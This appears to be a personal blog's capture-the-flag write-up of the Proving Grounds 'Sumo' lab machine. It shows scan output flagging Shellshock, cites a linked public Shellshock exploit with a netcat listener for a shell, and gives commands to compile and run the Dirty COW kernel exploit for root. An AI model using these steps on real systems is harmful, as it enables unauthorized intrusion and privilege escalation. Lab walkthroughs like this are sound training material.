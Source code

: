 ```yaml
---
title: "Proving grounds Play: Sumo"
layout: post
date: 2023-08-29 02:00
categories: writeup
---
```


Proving grounds Play - Sumo CTF writeup.

## Nmap

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06cb9ea3aff01048c417934a2c45d948 (DSA)
|   2048 b7c5427bbaae9b9b7190e747b4a4de5a (RSA)
|_  256 fa81cd002d52660b70fcb840fadb1830 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Vulnerable to Shellshock

```text
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.180.87
+ Target Hostname:    192.168.180.87
+ Target Port:        80
+ Start Time:         2023-08-28 23:26:01 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ /: Server may leak inodes via ETags, header found with file /, inode: 1706318, size: 177, mtime: Mon May 11 13:55:10 2020. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /index: Uncommon header 'tcn' found, with contents: list.
+ /index: Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. The following alternatives for 'index' were found: index.html. See: http://www.wisec.it/sectou.php?id=4698ebdc59d15,https://exchange.xforce.ibmcloud.com/vulnerabilities/8275
+ /cgi-bin/test: Uncommon header '93e4r0-cve-2014-6271' found, with contents: true.
+ /cgi-bin/test: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278
+ /cgi-bin/test.sh: Uncommon header '93e4r0-cve-2014-6278' found, with contents: true.
+ /cgi-bin/test.sh: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
```

## Initial Foothold

Run netcat listener and the [Shellshock Exploit](https://github.com/b4keSn4ke/CVE-2014-6271) to obtain initial foothold.

![img](/assets/images/CTF/Proving_Grounds/Sumo/shell.png)

## Privilege Escaltion

**Get kernel information**

```sh
cat /etc/*release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=12.04
DISTRIB_CODENAME=precise
DISTRIB_DESCRIPTION="Ubuntu 12.04 LTS"
```

Ubuntu 12.04 is vulnerable to [Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method)](https://www.exploit-db.com/exploits/40839).

Download the exploit to the attaking machine and make sure the `gcc` path is exported, if not use the below to export.

```sh
PATH=PATH$:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH
```

**Follow below steps to obtain root**

```sh
# compile the code
gcc -pthread dirty.c -o dirty -lcrypt

# Then run the newly create binary
./dirty my-new-password

# now use su or ssh to firefart with new password
```

![img](/assets/images/CTF/Proving_Grounds/Sumo/root.png)

**Root Obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).